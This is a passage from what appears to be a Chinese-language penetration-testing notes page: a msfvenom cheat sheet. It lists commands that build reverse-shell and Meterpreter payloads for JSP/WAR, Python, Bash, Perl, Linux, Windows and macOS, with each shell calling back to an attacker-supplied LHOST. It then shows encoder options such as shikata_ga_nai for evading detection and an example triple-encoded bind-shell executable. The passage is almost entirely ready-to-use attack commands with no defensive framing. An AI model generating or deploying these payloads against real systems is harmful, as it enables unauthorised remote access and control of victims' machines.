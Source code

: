 msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
{{< /highlight >}}
Scripting Payloads

Python
{{< highlight shell >}}
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
{{< /highlight >}}
Bash
{{< highlight shell >}}
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
{{< /highlight >}}
Perl
{{< highlight shell >}}
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
{{< /highlight >}}
Linux Based Shellcode
{{< highlight shell >}}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
{{< /highlight >}}
Windows Based Shellcode
{{< highlight shell >}}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
{{< /highlight >}}
Mac Based Shellcode
{{< highlight shell >}}
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
{{< /highlight >}}
Handlers
### payload加编码

命令格式：
{{< highlight shell >}}
msfvenom -p <payload> <payload options> -a <arch> --platform <platform> -e <encoder option> -i <encoder times> -b <bad-chars> -n <nopsled> -f <format> -o <path>
{{< /highlight >}}
常用编码：
{{< highlight shell >}}
x86/shikata_ga_nai
cmd/powershell_base64
{{< /highlight >}}
例子：
{{< highlight shell >}}
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 -f exe > 1.exe
{{< /highlight >}}
### 自选模块
